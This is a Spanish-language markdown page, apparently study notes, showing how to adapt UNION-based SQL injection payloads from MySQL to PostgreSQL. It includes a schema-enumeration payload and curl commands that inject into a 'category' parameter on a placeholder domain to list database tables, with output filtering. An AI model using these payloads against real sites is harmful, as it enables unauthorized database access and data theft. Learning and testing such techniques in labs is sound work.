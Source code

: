 
```shell
' UNION SELECT NULL,concat(schema_name) FROM information_schema.schemata-- 
```


---

## curl (PostgreSQL)

En esta sección mostramos cómo adaptar los ejemplos de `curl` que usamos para [MySQL](MySQL.md) a **PostgreSQL**, manteniendo la misma estructura pero corrigiendo la sintaxis (especialmente `LIMIT`). 

### 1. Diferencia clave

En MySQL solemos usar `LIMIT <offset>,<count>` (por ejemplo `LIMIT 1,1`). En PostgreSQL la sintaxis correcta es:

```sql
LIMIT <count> OFFSET <offset>
```

Por eso debemos transformar payloads como `LIMIT 1,1` → `LIMIT 1 OFFSET 0`.


### 2. Un `curl` simple (obtener una fila concreta)

Si queremos pedir la primera tabla (`offset 0`) usando una inyección `UNION` que devuelve 2 columnas (por ejemplo `NULL, table_name`), el `curl` sería:

```bash
curl -s -X GET "https://DOMINIO/filter?category=' union select NULL,table_name from information_schema.tables limit 1 offset 0-- "
```

Para la segunda fila (`offset 1`):

```bash
curl -s -X GET "https://DOMINIO/filter?category=' union select NULL,table_name from information_schema.tables limit 1 offset 1-- "
```

> Nota: envolvemos la URL entre comillas para evitar problemas con caracteres especiales en la shell.


### 3. Procesar la salida (filtrar la celda HTML)

Si la página devuelve la tabla dentro de `<td>` y queremos extraer sólo el texto, combinamos `grep` y `html2text` (igual que en MySQL):

```bash
curl -s -X GET "https://DOMINIO/filter?category=' union select NULL,table_name from information_schema.tables limit 1 offset 0-- " | grep "<td>" | html2text
```

Resultado esperado (ejemplo):

```
pg_statistic
```
